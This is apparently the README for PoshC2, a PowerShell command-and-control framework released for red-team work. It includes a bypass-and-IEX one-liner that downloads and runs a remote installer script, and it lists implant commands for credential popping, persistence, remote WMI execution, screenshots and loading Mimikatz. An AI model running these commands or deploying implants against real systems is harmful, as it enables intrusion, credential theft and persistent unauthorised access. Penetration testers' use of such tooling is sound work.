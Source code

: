 Powershell C2:
================
Released as an open source project by Nettitude UK Limited - http://www.nettitude.com

Developed and maintained by @benpturner & @davehardy20

Requires only Powershell v2 on both server and client

Install:
================
powershell -exec bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/nettitude/PoshC2/master/C2-Installer.ps1')"

Run a new C2 Server:
==============================================
Run Start-C2-Server shortcut as Administrator (Windows 7,8 & 10)

Connect an existing database with valid implants:
=================================================
Run Restart-C2Server shortcut as Administrator (Windows 7,8 & 10)

**Very important if you want legacy payloads to re-connect to your C2 server**

Using the Implant-Handler:
===========================
Select the implant ID, then issue commands, e.g. 1. 
For multiple implants, select with comma seperator, e.g. 1,2,3

PS > Whoami

PS > Beacon 60

PS > Get-Service

PS > CreatePayloadProxy

PS > Cred-Popper

PS > Install-Persistence

PS > Remove-Persistence

PS > WMICommand -username domain\user -password pass -command "echo 1 > c:\test.txt"

PS > Get-Screenshot

PS > Invoke-AllChecks

PS > LoadModule invoke-mimikatz.ps1

PS > Get-RecentFiles

PS > back (to use another implant from the database)
